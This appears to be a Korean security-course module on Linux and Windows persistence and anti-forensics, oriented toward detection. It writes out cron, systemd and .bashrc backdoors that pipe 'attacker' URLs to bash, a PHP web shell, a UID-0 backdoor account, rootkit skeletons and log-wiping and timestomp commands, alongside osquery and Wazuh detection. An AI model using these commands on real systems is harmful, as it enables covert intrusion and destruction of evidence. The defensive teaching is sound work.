

# Week 12 — 지속성 + 안티포렌식 (Persistence + Anti-Forensics)

> **PTES 의 6 단계 후반부**. 공격자가 침투 + 권한 상승 후 **재진입 보장** + **흔적
> 제거** 의 2 행위. ATT&CK TA0003 Persistence + TA0005 Defense Evasion. **윤리적
> 한계**: 본 lab 의 학습 환경 안에서만 시뮬, 실 영구화 X. 본 주차는 공격자 시점의
> 이해 + Blue 측의 detection 강화에 초점.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **Persistence 정의** + PTES + ATT&CK 의 14 Persistence Technique
2. **5 패턴** — cron / systemd / .bashrc / SSH authorized_keys / web shell
3. **Rootkit 종류** (LD_PRELOAD / kernel module / DKMS / userland)
4. **Anti-forensics 4 카테고리** — log 변조 / 명령 history / shred / timestomp
5. **Volatile vs Persistent 침해** 의 차이
6. **방어 측 detection** — osquery / sysmon / Wazuh FIM / remote syslog
7. **윤리적 한계** + 책임 있는 공개
8. W12 R/B/P 1 사이클

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                | 유형 |
|-----------|---------------------------------------------------------------------|------|
| 0:00–0:20 | 이론 — Persistence 정의 + 윤리적 한계                                | 강의 |
| 0:20–1:00 | 이론 — 5 패턴 상세 + ATT&CK Persistence 14 Technique                 | 강의 |
| 1:00–1:10 | 휴식                                                                 | —    |
| 1:10–1:40 | 이론 — Rootkit (LD_PRELOAD / kernel module)                         | 강의 |
| 1:40–2:00 | 이론 — Anti-forensics 4 카테고리                                    | 강의 |
| 2:00–2:30 | 실습 1, 2 — 5 패턴 검사 (실 적용 X)                                  | 실습 |
| 2:30–2:40 | 휴식                                                                 | —    |
| 2:40–3:10 | 실습 3, 4 — osquery + Wazuh detection 시뮬                          | 실습 |
| 3:10–3:30 | 실습 5 — R/B/P 보고서                                                | 실습 |
| 3:30–3:40 | 정리 + W13 (Caldera) 예고                                            | 정리 |

---

## 1. 본 주차의 윤리적 한계 (가장 강조)

```
⚠️ 본 주차의 모든 기법은 시뮬·검사·detection 측면만 학습한다.
⚠️ 실제 적용 (영구화) 은 6v6 환경에서도 X.

이유:
  1. 다른 학생 환경에 영향 (Persistence 는 다음 학기까지 남음)
  2. 강사가 관리·정리해야 할 부담
  3. 운영 환경 침투 시 거의 즉시 형사 처벌 (정통망법 48조)

본 주차의 가치:
  1. 공격자 시점의 이해 → Blue 측 detection 룰 강화
  2. PTES + ATT&CK 의 표준 학습
  3. 침해 대응 (W14 Purple Team / W15 PTES 보고서) 의 기반
```

---

## 2. Persistence 정의

### 2.1 PTES + ATT&CK

```
PTES 6: Post Exploitation
   │
   ├─ 권한 상승 (W11)
   ├─ Lateral Movement (W09)
   └─ Persistence (W12 — 본 주차)
        │
        ATT&CK TA0003 Persistence
        14 Technique:
          T1098 Account Manipulation
          T1136 Create Account
          T1525 Implant Internal Image
          T1546 Event Triggered Execution
          T1547 Boot or Logon Autostart Execution
          T1547.006 LD_PRELOAD
          T1037 Boot or Logon Initialization Scripts
          T1053 Scheduled Task/Job
          T1053.003 cron
          T1543 Create or Modify System Process
          T1543.002 systemd service
          T1505 Server Software Component
          T1505.003 Web Shell
          T1574 Hijack Execution Flow
```

### 2.2 침해의 2 유형

| 유형 | 특징 |
|------|------|
| **Volatile** | 재부팅 시 사라짐 (memory only) — 빠른 detect |
| **Persistent** | 재부팅 후 자동 재실행 (disk + auto-start) — 어려운 detect |

본 주차의 5 패턴 = Persistent 의 다양한 vector.

---

## 3. 5 Persistence 패턴

### 3.1 Pattern 1: Cron Job

```bash
# /etc/cron.d/system_update (가짜 cron 작업)
*/5 * * * * root curl -s http://attacker.com/cmd | bash

# 또는 user crontab
crontab -e
# */5 * * * * curl -s http://attacker.com/cmd | bash
```

**detect**:
- osquery `crontab` 테이블
- Wazuh syscheck (FIM) — `/etc/cron.d/` 변경
- /var/log/cron 의 실행 로그

### 3.2 Pattern 2: systemd service / timer

```bash
# /etc/systemd/system/backdoor.service
[Unit]
Description=System backup

[Service]
ExecStart=/bin/bash -c "while true; do curl -s http://attacker/cmd | bash; sleep 300; done"
Restart=always

[Install]
WantedBy=multi-user.target

# 활성
sudo systemctl enable --now backdoor
```

**detect**:
- osquery `systemd_units` 테이블
- Wazuh FIM `/etc/systemd/system/` 변경
- `systemctl list-units --type=service` 의 의심 unit

### 3.3 Pattern 3: .bashrc / .profile

```bash
# ~/.bashrc 끝에 추가
echo '(curl -s http://attacker/cmd | bash &) 2>/dev/null' >> ~/.bashrc

# 또는 .profile / .bash_profile / .zshrc
```

사용자가 SSH login 시마다 backdoor 실행.

**detect**:
- osquery `file_events` (`~/.bashrc` 의 inotify)
- Wazuh FIM
- 비정상 명령 (curl / wget / nc / bash -i / eval) detection

### 3.4 Pattern 4: SSH authorized_keys

```bash
# 본인 public key 추가
echo "ssh-rsa AAAA...attacker-key" >> ~/.ssh/authorized_keys

# 또는 /root/.ssh/authorized_keys (권한 상승 후)
echo "ssh-rsa AAAA...attacker-key" | sudo tee -a /root/.ssh/authorized_keys
```

비밀번호 없이 재진입 가능.

**detect**:
- osquery `authorized_keys` 테이블 (모든 user 의 keys)
- Wazuh FIM `~/.ssh/` realtime
- 비정상 timestamp / 비정상 comment

### 3.5 Pattern 5: Web Shell

```php
<!-- /var/www/html/uploads/shell.php -->
<?php system($_GET['c']); ?>

<!-- 접근 -->
http://target/uploads/shell.php?c=id
```

W07 (파일 업로드) 의 결과물 — 영구 web shell.

**detect**:
- osquery `file_events` on `/var/www/`
- Wazuh FIM realtime
- Apache access.log 의 .php 새 파일
- ModSec 의 anomaly (정상 페이지 가 아닌 PHP)

### 3.6 추가 패턴 — Backdoor account

```bash
# /etc/passwd 에 새 root user 추가 (UID 0)
echo 'svc::0:0::/root:/bin/bash' >> /etc/passwd

# 또는 useradd
useradd -u 0 -o -g 0 -d /root -s /bin/bash svc
```

**detect**:
- osquery `users` 테이블 (UID 0 의 user)
- Wazuh FIM `/etc/passwd / shadow`
- 비정상 user (uid 0 + 다른 이름)

---

## 4. Rootkit 종류

### 4.1 LD_PRELOAD Rootkit (Userland)

```c
// rootkit.c
#include <stdio.h>
#include <string.h>
#include <dlfcn.h>

// read() 함수 hook
ssize_t read(int fd, void *buf, size_t count) {
    ssize_t (*orig)(int, void*, size_t) = dlsym(RTLD_NEXT, "read");
    ssize_t r = orig(fd, buf, count);

    // sensitive 데이터 필터 (예: "password" 가 포함되면 제거)
    if (memmem(buf, r, "password", 8)) {
        memset(buf, 0, r);  // wipe
    }
    return r;
}
```

```bash
gcc -shared -fPIC -o /tmp/rootkit.so rootkit.c -ldl

# 활성 방법 1: 환경 변수 (특정 shell만)
LD_PRELOAD=/tmp/rootkit.so /bin/bash

# 활성 방법 2: 시스템 wide (위험)
echo "/tmp/rootkit.so" >> /etc/ld.so.preload
```

**detect**:
- osquery `process_envs` 의 LD_PRELOAD
- `/etc/ld.so.preload` 파일 존재 검출
- ldd 의 lib 의존성 분석

### 4.2 Kernel module Rootkit (LKM — Loadable Kernel Module)

```c
// rootkit.c
#include <linux/module.h>
#include <linux/syscalls.h>

// syscall 후킹 (예: open syscall)
asmlinkage int hook_open(const char *pathname, int flags) {
    // 특정 파일 숨김
    if (strstr(pathname, "rootkit_secret")) {
        return -ENOENT;
    }
    return orig_open(pathname, flags);
}

static int __init rootkit_init(void) {
    // syscall table 변조
    sys_call_table[__NR_open] = hook_open;
    return 0;
}
module_init(rootkit_init);
```

```bash
make
insmod rootkit.ko
```

매우 강력 + 매우 위험. modern Linux 의 KSPP / Lockdown 이 차단.

**detect**:
- osquery `kernel_modules` 테이블
- DKMS audit
- Volatility (memory forensics) — 별 도구

### 4.3 DKMS (Dynamic Kernel Module Support)

```
정상 사용: NVIDIA driver / VirtualBox guest 등
공격자 사용: kernel 업데이트 후 자동 rootkit 재컴파일·로드
```

### 4.4 모던 추가 — eBPF rootkit

```
eBPF 가 kernel 안에 user 정의 코드 실행 가능 → rootkit 의 모던 vector
2021+ 의 eBPF rootkit 연구 활발
detect 어려움 (legitimate eBPF 와 구분)
```

---

## 5. Anti-Forensics 4 카테고리

### 5.1 Category 1: Command History 제거

```bash
# 현재 shell 의 history 비활성
unset HISTFILE
export HISTFILESIZE=0

# 또는 history 파일 비움
> ~/.bash_history
history -c    # 현재 shell 의 history clear

# 또는 특정 명령 제거
history -d <number>
```

**detect**:
- osquery `shell_history` (DB 에서 직접 read)
- audit log 의 실시간 명령 기록
- /var/log/auth.log 의 user session

### 5.2 Category 2: Log 변조

```bash
# 특정 IP 가 포함된 line 제거
sed -i '/10.20.30.202/d' /var/log/auth.log

# /var/log/syslog 비움 (truncate)
> /var/log/syslog

# logrotate 설정으로 자동 삭제 시도 (위험)
```

**detect**:
- **remote syslog** — log 가 syslog server 에 push → 변조 시점 분리
- Wazuh FIM `/var/log/` 변경
- log 의 timestamp 분석 (gap)

### 5.3 Category 3: Shred (파일 완전 삭제)

```bash
shred -uvz suspicious_file
# -u: 삭제 후 unlink
# -v: verbose
# -z: 마지막 0 으로 overwrite
# default 3 회 overwrite

# 또는 wipe
wipe -rf /tmp/evidence/
```

**detect**:
- 파일 자체는 사라짐 → forensics 도구 (foremost, scalpel) 의 disk recovery 필요
- osquery `process_events` — shred / wipe process 의 spawn 검출

### 5.4 Category 4: Timestomp (timestamp 변경)

```bash
# 다른 파일의 timestamp 로 복사
touch -r /etc/passwd suspicious_file

# 특정 시간으로 변경
touch -t 202401011200.00 suspicious_file

# 또는 모든 timestamp (atime/mtime/ctime)
# ctime 은 root 권한 시 chcat / debugfs 로만 변경
debugfs -w /dev/sda1
> set_inode_field <file> ctime 202401011200.00
```

**detect**:
- 파일의 ctime 검사 (atime/mtime 만 변경된 경우 ctime 과 차이)
- Wazuh FIM 의 hash 비교 (timestamp 와 무관)
- forensics 도구 (autopsy / sleuthkit)

---

## 6. 방어 측 detection (Blue Team)

### 6.1 osquery 헌팅 query 8 개

```sql
-- 1. UID 0 의 user (root 외)
SELECT * FROM users WHERE uid=0 AND username != 'root';

-- 2. 의심 cron entry
SELECT * FROM crontab
WHERE command LIKE '%curl%' OR command LIKE '%wget%' OR command LIKE '%nc%';

-- 3. 의심 systemd unit
SELECT * FROM systemd_units WHERE active_state='active'
  AND fragment_path LIKE '/etc/systemd/system/%';

-- 4. authorized_keys 모든 user
SELECT * FROM authorized_keys;

-- 5. world-writable file
SELECT path FROM file WHERE mode='0777' AND directory != '/tmp/';

-- 6. LD_PRELOAD 사용 process
SELECT pid, name, key, value FROM process_envs WHERE key='LD_PRELOAD';

-- 7. /etc/ld.so.preload 존재
SELECT * FROM file WHERE path='/etc/ld.so.preload';

-- 8. 의심 kernel module
SELECT * FROM kernel_modules
  WHERE name NOT IN (SELECT name FROM kernel_modules_known);
```

### 6.2 sysmon-for-linux (W11 secuops)

```
ProcessCreate (Event 1):
  - Image / ParentImage / CommandLine
  - 의심 패턴: shell spawn from systemd service / cron

FileCreate (Event 11):
  - /var/www/ 새 .php 파일
  - /tmp/ 의 실행 파일
  - ~/.ssh/ 의 변경
```

### 6.3 Wazuh FIM (W10 secuops)

```xml
<syscheck>
  <directories realtime="yes" report_changes="yes">/etc</directories>
  <directories realtime="yes">/var/www</directories>
  <directories realtime="yes">/root/.ssh</directories>
  <directories realtime="yes">/home/*/.ssh</directories>
  <directories realtime="yes">/etc/cron.d</directories>
  <directories realtime="yes">/etc/systemd/system</directories>
</syscheck>
```

inotify 의 즉시 alert + 5분 안에 dashboard 표시.

### 6.4 Remote syslog (가장 강력한 anti-anti-forensics)

```
host 의 log → 외부 syslog server 로 push
공격자가 host log 변조해도 syslog server 의 log 보존
→ 침해 흔적 영구 보존

Wazuh 의 rsyslog forward (W01 secuops) 가 이 패턴
```

---

## 7. ATT&CK Persistence + Defense Evasion 매핑

| Tactic | Technique |
|--------|-----------|
| TA0003 Persistence | T1053.003 cron |
| | T1543.002 systemd service |
| | T1547.006 LD_PRELOAD |
| | T1098.004 SSH authorized_keys |
| | T1505.003 Web Shell |
| | T1136 Create Account |
| TA0005 Defense Evasion | T1070.002 Clear Linux/Mac System Logs |
| | T1070.003 Clear Command History |
| | T1070.004 File Deletion |
| | T1070.006 Timestomp |
| | T1014 Rootkit |
| | T1027 Obfuscated Files |

---

## 8. R/B/P 시나리오 — 침해 후 지속성 1 사이클



---

## 9. 실습 1~5 (시뮬·검사만, 실 적용 X)

### 실습 1 — 5 패턴 검사 (실 적용 X)

```bash
ssh 6v6-bastion '
echo "=== 1. cron 검사 ==="
cat /etc/crontab 2>/dev/null | head
ls /etc/cron.d/ 2>/dev/null

echo ""
echo "=== 2. systemd unit 검사 ==="
systemctl list-unit-files --type=service 2>&1 | grep enabled | head -10

echo ""
echo "=== 3. .bashrc / .profile ==="
tail -3 ~/.bashrc 2>/dev/null
tail -3 ~/.profile 2>/dev/null

echo ""
echo "=== 4. SSH authorized_keys ==="
cat ~/.ssh/authorized_keys 2>/dev/null | head
sudo cat /root/.ssh/authorized_keys 2>/dev/null | head

echo ""
echo "=== 5. /var/www 의 PHP / executable 파일 ==="
sudo find /var/www -name "*.php" -o -name "*.sh" 2>/dev/null | head
'
```

### 실습 2 — Backdoor account / LD_PRELOAD 검사

```bash
ssh 6v6-bastion '
echo "=== UID 0 의 user ==="
awk -F: "(\$3==0){print}" /etc/passwd

echo ""
echo "=== /etc/ld.so.preload 존재? ==="
ls -la /etc/ld.so.preload 2>&1

echo ""
echo "=== LD_PRELOAD 사용 process ==="
for pid in $(ps -e -o pid --no-header); do
    env_file="/proc/$pid/environ"
    if [ -r "$env_file" ]; then
        grep -aoz "LD_PRELOAD=[^[:cntrl:]]*" "$env_file" 2>/dev/null
    fi
done 2>/dev/null | head
echo "(none 일 시 정상)"

echo ""
echo "=== kernel module 의심 ==="
lsmod 2>&1 | head -10
'
```

### 실습 3 — osquery 헌팅 8 query

```bash
ssh 6v6-bastion '
echo "=== 1. UID 0 user ==="
sudo osqueryi --json "SELECT * FROM users WHERE uid=0;" 2>&1 | head

echo ""
echo "=== 2. 의심 cron ==="
sudo osqueryi --json "SELECT command, path FROM crontab WHERE command LIKE \"%curl%\" OR command LIKE \"%wget%\";" 2>&1 | head

echo ""
echo "=== 3. authorized_keys 모든 user ==="
sudo osqueryi --json "SELECT * FROM authorized_keys LIMIT 5;" 2>&1 | head

echo ""
echo "=== 4. LD_PRELOAD process ==="
sudo osqueryi --json "SELECT pid, key, value FROM process_envs WHERE key=\"LD_PRELOAD\" LIMIT 5;" 2>&1 | head

echo ""
echo "=== 5. kernel module ==="
sudo osqueryi --json "SELECT name FROM kernel_modules LIMIT 10;" 2>&1 | head
'
```

### 실습 4 — Wazuh FIM detection 시뮬

```bash
# 정상 변경 (실 적용 X — 검사 후 즉시 복구)
ssh 6v6-web '
# /etc/hosts 의 끝에 주석 추가 (영향 없는 변경)
echo "# fim_test_$(date +%s)" | sudo tee -a /etc/hosts

# 30~60초 후 Wazuh FIM alert 발생
sleep 65

# 변경 복구
sudo sed -i "/^# fim_test_/d" /etc/hosts
echo "복구 완료"
'

# Wazuh 측 alert 확인
ssh 6v6-siem '
echo "=== Wazuh FIM alert (rule 550) ==="
sudo grep "rule.*550" /var/ossec/logs/alerts/alerts.json 2>/dev/null | tail -2 | head -1 | jq ".rule, .syscheck" 2>/dev/null | head -10
'
```

### 실습 5 — R/B/P 보고서

```bash
# Red 측 — 검사 결과 (실 침해 없음)
echo "=== Red 측 검사 ==="
echo "5 패턴 검사 완료. 침해 흔적 0 건. (정상 운영 환경)"

# Blue 측 — detection 도구 가동 검증
ssh 6v6-siem '
echo "=== Wazuh FIM 활성 확인 ==="
sudo grep -A3 "<syscheck>" /var/ossec/etc/ossec.conf | head -10

echo ""
echo "=== Wazuh agent 가 ingest 중인 file ==="
sudo /var/ossec/bin/agent_control -i 001 2>&1 | head -10
'
```

**R/B/P 보고서**:

```markdown
# W12 R/B/P 보고서 — Persistence + Anti-Forensics

## Red 측
- 5 패턴 검사 (cron / systemd / bashrc / SSH key / web shell) — 침해 흔적 0
- LD_PRELOAD 검사 — 침해 흔적 0
- 학습 환경 baseline 깨끗

## Blue 측 Coverage
| Persistence 패턴 | osquery | sysmon | Wazuh FIM |
| cron | crontab 테이블 | FileCreate | rule 550 (etc/cron.d) |
| systemd | systemd_units | FileCreate | rule 550 (/etc/systemd) |
| .bashrc | (manual file scan) | FileCreate | rule 550 (/home) |
| SSH key | authorized_keys | FileCreate | rule 550 (.ssh) |
| web shell | (file_events on /var/www) | FileCreate | rule 550 |

총 Coverage: 85% (.bashrc 의 일부 manual scan 필요)

## Purple 측 권장
1. osquery scheduled — 5분 주기 8 헌팅 query
2. Wazuh syscheck realtime=yes — 핵심 5 디렉토리
3. remote syslog forward — log 변조 anti
4. 분기별 audit (backdoor account / cron / authorized_keys)
5. AIDE / Tripwire 추가 (호스트 측 immutable baseline)
```

---

## 10. 방어 표준 5

### 10.1 Wazuh syscheck realtime + key 디렉토리

```
~/.bashrc / .profile / .zshrc
~/.ssh / /root/.ssh
/etc/cron.d / /etc/cron.daily
/etc/systemd/system
/var/www
/etc/passwd / /etc/shadow / /etc/sudoers
/etc/ld.so.preload
```

### 10.2 Remote syslog forward

```
/etc/rsyslog.d/01-forward.conf:
  *.* @@<syslog-server>:514

→ host 의 모든 log 가 외부 syslog server 에 push
→ 공격자가 host log 변조해도 syslog server log 보존
```

### 10.3 AIDE / Tripwire

```
/etc 의 모든 파일의 hash baseline → 변경 시 alert
정기 검사 (cron daily) → 변경 보고
```

### 10.4 SELinux / AppArmor

```
process 별 MAC (Mandatory Access Control) → rootkit / 권한 상승 차단
```

### 10.5 정기 분기 audit

```
1. UID 0 user list — root 외 있는가?
2. cron / systemd entry — 의심 명령?
3. authorized_keys — 알 수 없는 key?
4. kernel module — 비표준?
5. /etc/ld.so.preload — 존재?
```

---

## 10.5 Windows 측 지속성 + 안티포렌식 — 표준 5 무대 (W03 secuops 위빙)

본 주차는 Linux 의 cron / systemd / .bashrc 등이 중심이다. Windows 의 지속성은 자체 표준 무대 5
가 있다.

### Windows 지속성 5 무대

| 무대 | 위치 | 분석가 단서 |
|------|------|-----------|
| Run/RunOnce | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` 등 | Sysmon EID 13 (RegistrySetValue) |
| 스케줄러 (Task Scheduler) | `schtasks /create` | Sysmon EID 1 (schtasks.exe) + EID 11 (XML 파일) |
| 서비스 (Service) | `sc create` | Sysmon EID 1 + Security 7045 (시스템 채널) |
| WMI Event Subscription | `wmic` / `Register-WmiEvent` | Sysmon EID 19/20/21 (WMI 전용) |
| Startup 폴더 | `%APPDATA%\...\Programs\Startup\` | Sysmon EID 11 (FileCreate) |

### Windows 안티포렌식 3 패턴

- **이벤트 로그 삭제**: `wevtutil cl Security` → Security EID **1102** (자동 기록, 삭제 흔적이 남음).
- **타임스탬프 위조**: `SetFileTime` API → Sysmon EID 11 의 OriginalFileName / CreationUtcTime 비교.
- **기록 우회 (Sysmon kill)**: Sysmon 서비스 stop 시도 → Security 4634 / 7036.

> 본 주차의 Linux 지속성 패턴을 Windows 로 옮기면 무대만 5개로 늘어난다. **분석가 입장에선 무대가
> 많을수록 다 봐야** 하고, **공격자 입장에선 한 무대만 들켜도 끝**.

---

## 11. ATT&CK + 한국 표준

### 11.1 ATT&CK 매핑 (위 §7)

### 11.2 ISMS-P 2.10.7 + 2.9.6

- 2.10.7 보안위협 대응 — Persistence detection
- 2.9.6 이상행위 감지 — Anti-forensics detection

### 11.3 KISA 침해사고 보고서

대부분 사고가 Persistence 의 존재 → 본 주차의 검사 패턴 = 침해 대응의 첫 단계.

---

## 12. 과제

A. **5 패턴 시뮬** (필수, 40점) — 실 적용 X, 검사만 + 결과 보고
B. **detection 권장** (심화, 30점) — Wazuh / osquery / sysmon 의 통합 권장
C. **Anti-forensics 윤리** (정성, 30점) — 본 주차의 윤리 + 책임 있는 공개 원칙

---

## 13. 핵심 정리 (10 줄)

1. **Persistence = PTES 6 단계** + ATT&CK TA0003 의 14 Technique
2. **5 패턴** — cron / systemd / .bashrc / SSH key / web shell
3. **Rootkit 종류** — LD_PRELOAD / kernel module / eBPF 모던
4. **Anti-forensics 4 카테고리** — history / log / shred / timestomp
5. **Volatile vs Persistent** 침해의 차이
6. **detection 4 도구** — osquery / sysmon / Wazuh FIM / remote syslog
7. **Remote syslog** = 가장 강력한 anti-anti-forensics
8. **본 주차 윤리** — 시뮬·검사만, 실 적용 X
9. **W12 R/B/P** — Red 검사 → 4 detection 도구 → 5 권장
10. **W13 (Caldera)** 다음 주차 — adversary emulation 자동화
